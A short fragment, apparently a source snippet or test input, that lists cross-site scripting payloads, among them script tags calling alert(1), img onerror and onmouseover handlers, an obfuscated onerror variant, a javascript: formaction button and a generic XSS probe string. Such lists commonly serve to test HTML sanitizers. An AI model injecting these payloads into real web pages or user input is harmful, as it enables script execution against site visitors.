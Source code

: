 # -b-
<b>test</b>test
  <img src="x&quot;" o%20nerror=ale%20rt(1)>
  <script>alert(1)</script>
  <img src=x onmouseover="alert('xxs')">
<'';!--"<<XSS>=&{()}
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>t
&#34
